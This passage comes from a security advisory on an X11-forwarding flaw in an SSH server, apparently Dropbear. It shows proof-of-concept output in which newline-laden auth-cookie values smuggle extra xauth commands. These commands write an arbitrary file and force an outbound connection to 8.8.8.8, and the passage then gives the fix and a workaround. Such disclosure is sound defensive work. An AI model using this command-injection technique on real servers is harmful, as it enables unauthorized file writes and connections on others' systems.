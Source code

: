 5. `forced-commands` - write `/tmp/testfile`

	```c
	#> .writefile /tmp/testfile1 `thisisatestfile`
	DEBUG:__main__:auth_cookie: '\nadd 127.0.0.250:65500 `thisisatestfile` aa'
	DEBUG:__main__:dummy exec returned: None
	DEBUG:__main__:auth_cookie: '\nextract /tmp/testfile1 127.0.0.250:65500'
	DEBUG:__main__:dummy exec returned: None
	DEBUG:__main__:user1
	/usr/bin/xauth: (stdin):1:  bad "add" command line
	
	#> INFO:__main__:/tmp/testfile1
	
	#> ls -lsat /tmp/testfile1
	4 -rw------- 1 user1 user1 59 xx xx 12:51 /tmp/testfile1
	
	#> cat /tmp/testfile1
	ú65500hiú65500`thisisatestfile`ªr
	```
	
6. `forced-commands` - initiate outbound X connection to 8.8.8.8:6100

	```c
	#> generate 8.8.8.8:100
	DEBUG:__main__:auth_cookie: '\ngenerate 8.8.8.8:100'
	DEBUG:__main__:dummy exec returned: None
	INFO:__main__:user1
	/usr/bin/xauth: (stdin):1:  bad "add" command line
	/usr/bin/xauth: (stdin):2:  unable to open display "8.8.8.8:100".
	
	#> tcpdump 
	IP <host> 8.8.8.8.6100: Flags [S], seq 81800807, win 29200, options [mss 1460,sackOK,TS val 473651893 ecr 0,nop,wscale 10], length 0
	```	

Fix
---

* Sanitize user-tainted input `chansess->x11authcookie`


Mitigation / Workaround
------------------------

* disable x11-forwarding: re-compile without x11 support: remove `options.h` -> `#define ENABLE_X11FWD`

Notes
-----

Thanks to the OpenSSH team for coordinating the fix!

Vendor response see: changelog [4]


References
----------

	[1] https://matt.ucc.asn.au/dropbear/dropbear.html
	[2] http://linux.die.net/man/1/xauth
	[3] https://github.com/tintinweb/pub/tree/master/pocs/cve-2016-3115/
	[4] https://matt.ucc.asn.au/dropbear/CHANGES
	
Contact
-------

	https://github.com/tintinweb